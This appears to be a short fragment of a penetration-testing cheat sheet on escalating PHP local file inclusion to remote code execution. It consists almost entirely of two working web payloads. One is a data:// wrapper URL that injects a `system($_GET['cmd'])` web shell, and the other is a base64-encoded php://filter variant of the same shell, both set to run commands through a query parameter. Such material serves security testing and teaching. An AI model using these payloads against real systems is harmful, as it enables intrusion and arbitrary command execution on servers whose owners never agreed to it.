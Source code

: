 ***

Simple case in which LFI can be leveraged for RCE
```
http://example/file.php?page=data://plain/text,<?php system($_GET['cmd']); ?><&cmd=id
```

Also you can test base64 encoding
```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=id
```